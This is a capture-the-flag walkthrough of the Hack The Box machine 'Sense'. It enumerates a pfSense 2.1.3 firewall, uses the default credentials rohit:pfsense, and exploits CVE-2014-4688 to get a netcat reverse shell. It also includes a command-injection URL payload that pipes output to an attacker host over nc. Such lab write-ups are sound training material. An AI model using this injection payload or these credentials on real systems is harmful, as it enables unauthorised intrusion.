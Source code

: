 # Sense HTB, IP 10.10.10.60

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.60**

![se1](https://user-images.githubusercontent.com/15195048/94268612-4ae0ab00-fef2-11ea-8bf0-ff8204ac3063.png)

**2. ./nmapAutomator.sh 10.10.10.60 All**

 cpe:/a:lighttpd:lighttpd:1.4.35: 

CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

**3. Dirb/Gobuster Enumeration**

**dirb https://10.10.10.60 -X .php,.html**

---- Scanning URL: https://10.10.10.60/ ----
+ https://10.10.10.60/edit.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/exec.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/graph.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/help.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/index.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/index.html (CODE:200|SIZE:329)                                                                                                                                                                                      
+ https://10.10.10.60/license.php (CODE:200|SIZE:6692)                                                                                                                                                                                    
+ https://10.10.10.60/pkg.php (CODE:200|SIZE:6688)                                                                                                                                                                                        
+ https://10.10.10.60/stats.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/status.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/system.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/wizard.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384) 


![se2](https://user-images.githubusercontent.com/15195048/94268614-4b794180-fef2-11ea-8106-2deae3a9b260.png)

**gobuster dir -u http://"10.10.10.60" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt -r -k**
 
![se3](https://user-images.githubusercontent.com/15195048/94268616-4c11d800-fef2-11ea-8268-4941b8e84663.png)

![se4](https://user-images.githubusercontent.com/15195048/94268619-4caa6e80-fef2-11ea-8d32-f1caa09c04d0.png)

**4. SEARCHPLOIT**

**searchploit lighttpd**

![se5](https://user-images.githubusercontent.com/15195048/94268621-4d430500-fef2-11ea-86e5-a99b379dd30d.png)


**searchploit pfsense**

![se6](https://user-images.githubusercontent.com/15195048/94268622-4d430500-fef2-11ea-8f14-9803af973efe.png)


------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## Enumerating port 80
Firewall pfsense blocks us from visiting the mentioned pages.
index.php

![se7](https://user-images.githubusercontent.com/15195048/94268625-4e743200-fef2-11ea-9679-8139a41fb032.png)


pfSense is an open source firewall/router computer software distribution based on FreeBSD.

index.html


![se8](https://user-images.githubusercontent.com/15195048/94268629-4f0cc880-fef2-11ea-9042-34872cf29431.png)

![se9](https://user-images.githubusercontent.com/15195048/94268632-4f0cc880-fef2-11ea-9bcc-bc1b5b170fc4.png)


**Interesting Files**

https://10.10.10.60/tree/

![se10](https://user-images.githubusercontent.com/15195048/94268633-4fa55f00-fef2-11ea-878c-593a0be9a053.png)

**SilverStripe v 0.1**

Searching for known vulnerabilities.

Nothing interesting

changelog.txt


![se11](https://user-images.githubusercontent.com/15195048/94268634-4fa55f00-fef2-11ea-95f1-d0b61de60361.png)

system-users.txt

![se12](https://user-images.githubusercontent.com/15195048/94268635-503df580-fef2-11ea-9776-a562703a4119.png)


According to the ticket, there is an account with username Rohit and default password.
Credentials rohit:pfsense

![se13](https://user-images.githubusercontent.com/15195048/94268637-503df580-fef2-11ea-857c-ecb001349ad8.png)


**Pfsense v2.1.3**

![se14](https://user-images.githubusercontent.com/15195048/94268639-50d68c00-fef2-11ea-911c-4785223aae8a.png)

Searching for vulnerability I found **CVE-2014-4688**.

![se15](https://user-images.githubusercontent.com/15195048/94268640-50d68c00-fef2-11ea-9a01-104f3842c192.png)

**Modifications:** lhost, lport, rhost, username, password and start a netcat listener

![se16](https://user-images.githubusercontent.com/15195048/94268643-516f2280-fef2-11ea-9859-9d63edd558b8.png)


**Attacker:**
nc -lvp 9999

![se17](https://user-images.githubusercontent.com/15195048/94268644-516f2280-fef2-11ea-9de1-85702c0b0a6c.png)

user.txt

# Privilege Escalation

## Command Injection Manually

Study the article https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection

**/status_rrd_graph_img.php?database=queues;echo Testing | nc 10.10.14.12 443**

**Attacker:**
nc -nlvp 443
 

We are local admin!
No privilege escalation needed!

![se18](https://user-images.githubusercontent.com/15195048/94268646-5207b900-fef2-11ea-9eb3-6bdb03fe59fe.png)

**Rooted**
root.txt

